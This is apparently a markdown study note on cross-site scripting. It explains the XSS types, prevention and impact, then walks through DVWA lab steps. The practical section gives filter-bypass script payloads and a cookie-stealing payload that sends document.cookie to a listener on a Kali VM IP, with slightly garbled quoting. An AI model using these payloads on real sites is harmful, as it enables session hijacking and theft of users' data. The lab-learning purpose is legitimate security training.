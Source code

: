 ## Cross Site Scripting (XSS): 
- `Using JS Language` `User gets affected, Not the Servers`
- Allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can execute in the context of the victim's browser, leading to theft of sensitive information, session hijacking, or defacement of websites.

## Types:
1. Reflected XSS: Malicious script is reflected off a web server and executed in the victim's browser when a user visits a specially crafted link or submits a form.
- typically `embedded in URLs, form inputs`, or other user-controllable parameters and are reflected back in error messages, search results, or dynamically generated pages.
- `malicious code is temporarily injected into the server's response and reflected back to the victim's browser.`

2. Stored/Persistent XSS:
- `Malicious script is stored on the server` (e.g., in a database) and `executed every time in the victim's browser whenever they access the compromised page` containing that script.
- When a victim user visits the page containing the injected code, their browser executes it, allowing the attacker to perform actions like session hijacking, data theft, or defacement.

3. DOM-based XSS: Malicious script is injected into the Document Object Model (DOM) of a web page and executed by the victim's browser, often as a result of client-side JavaScript manipulating user-controlled data without proper validation.

## Example:
- An attacker injects a malicious `script into a comment field on a blog website`. When other users view the comment section, the script executes in their browsers, stealing their session cookies and sending them to the attacker.

## Prevention:
```
Input Validation: Validate and sanitize user input to prevent the injection of script tags and other malicious content.
Output Encoding: Encode user-generated content before rendering it in web pages to ensure that any HTML, JavaScript, or other potentially dangerous characters are displayed as plain text.
HTTPOnly Cookies: Set the HTTPOnly flag on cookies to prevent client-side scripts from accessing them, reducing the risk of session hijacking.
Content Security Policy (CSP): Implement CSP headers to restrict the sources from which scripts can be executed, mitigating the impact of XSS attacks by blocking unauthorized scripts.
Use XSS Filters: Employ web application firewalls or browser-based XSS filters to detect and block malicious script injections at the network or browser level.
```

## Impact:
```
Session Hijacking: Attackers can steal session cookies and impersonate users.
Data Theft: Attackers can steal sensitive information entered by users, such as login credentials or personal data.
Phishing: Attackers can create authentic-looking phishing pages to trick users into divulging sensitive information.
```


## Practical (Reflected-XSS):
1. Open DVWA > Security:Low > Inject Js code: `<script>alert('Hi')</script>` > Pop-Up: Hi > Vulnerable to XSS.
2. Open DVWA > Security:Mid > Inject Js code: `<SCRIPT>alert('Hi')</SCRIPT>` > Pop-Up: Hi > Vulnerable to XSS.
3. Open DVWA > Security:Mid > Inject Js code: `<scr<script>ipt>alert('Hi')</script>` > Pop-Up: Hi > Vulnerable to XSS.

4. Open DVWA > Security:Mid > Inject Js code: `'<SCRIPT>'document.write('<img src="http://<kali-VM-IP>:12345/' + document.cookie + ` ">`); </SCRIPT>`
Listen on the Kali VM: `python -m http.server 12345`

> The session details will show here in the Terminal.

## Practical (Stored-XSS):
1. Open DVWA > Security:Low > Inject Js code: `<script>alert('Hi')</script>` > Pop-Up: Hi > whenever anyone open the page.
2. Open DVWA > Security:Mid > Inject Js code in "Name" Input Field after doing Inspect in the Browser: `<SCRIPT>alert('Hi')</SCRIPT>` > Pop-Up: Hi > whenever anyone open the page > Vulnerable to XSS.























